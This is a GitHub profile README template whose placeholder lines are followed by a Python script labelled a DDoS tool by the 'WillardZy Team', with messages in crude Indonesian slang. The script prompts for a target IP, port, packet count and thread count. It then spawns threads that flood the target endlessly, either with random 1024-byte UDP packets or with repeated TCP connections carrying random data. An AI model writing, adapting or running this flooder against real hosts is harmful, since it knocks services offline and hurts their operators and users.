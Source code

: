 - 👋 Hi, I’m @ThurrXd
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
ThurrXd/ThurrXd is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->T
#!/usr/bin/env python3
#Kagak Usah Rename BY By Tai Anjing 
#Ddos by Vnz
import random
import socket
import threading
import os

os.system("clear")
print("DDoS Tools By WillardZy Team")
print("Ez")
ip = str(input(" Ip: "))
port = int(input(" Port: "))
choice = str(input(" Gas?(y/n): "))
times = int(input(" Packets: "))
threads = int(input(" Threads: "))
def run():
  data = random._urandom(1024)
  i = random.choice(("[*]","[!]","[#]"))
  while True:
    try:
      s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
      addr = (str(ip),int(port))
      for x in range(times):
        s.sendto(data,addr)
      print(i +" Jebol Kontol.......")
    except:
      print("[!] WillardZy Team Nieh Bwang")

def run2():
  data = random._urandom(16)
  i = random.choice(("[*]","[!]","[#]"))
  while True:
    try:
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.connect((ip,port))
      s.send(data)
      for x in range(times):
        s.send(data)
      print(i +" Permisii Om Numpang Lewat!!!")
    except:
      s.close()
      print("[*] Rataaa Bozzz")

for y in range(threads):
  if choice == 'y':
    th = threading.Thread(target = run)
    th.start()
  else:
    th = threading.Thread(target = run2)
    th.start()
